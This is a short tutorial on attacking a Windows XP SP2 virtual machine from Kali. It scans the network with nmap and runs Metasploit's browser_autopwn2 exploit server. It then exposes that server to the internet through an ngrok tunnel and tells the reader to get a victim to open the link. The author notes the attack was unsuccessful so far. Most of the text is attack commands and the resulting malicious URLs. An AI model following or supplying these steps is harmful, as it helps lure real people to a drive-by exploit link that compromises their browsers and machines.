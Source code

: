 Boot / Install Kali

Install Windows XP service pack 2 on a virtualbox image, and boot it.

On both the Windows VM and the Kali VM (if using Kali in a VM) click Network Settings
![](http://teachthe.net/topclipbox/2016-05-04_10-13-217I0PL4.png)

Select Bridged Adapter and hit OK.

In Kali, run nmap:
```
nmap -sV 192.168.0.0-254
```

From this, find the victim IP address and insert it in the commands below in place of "192.168.0.103"

```shell
$ msfconsole
> use auxiliary/server/browser_autopwn2
> run
```

You will see something like this:

![](http://teachthe.net/topclipbox/2016-05-08_11-51-14B1QX3N.png)

We want the url from that:
```
http://192.168.0.101:8080/qlGmgjhJgz
```

Download ngrok & cd to it's directory.

```
$ ngrok http 8080
```

Note that ngrok's port is matching from your URL!

You should now see something like this:

![](http://teachthe.net/topclipbox/2016-05-08_11-55-24RBIISL.png)

Take that ngrok URL:
```
http://367d5238.ngrok.io
```

And add on the end of it the path from your metasploit browser autopwn url:

```
http://367d5238.ngrok.io/qlGmgjhJgz
```

Note get your victim to open that url!


[NOTE - unsuccessful thus far]
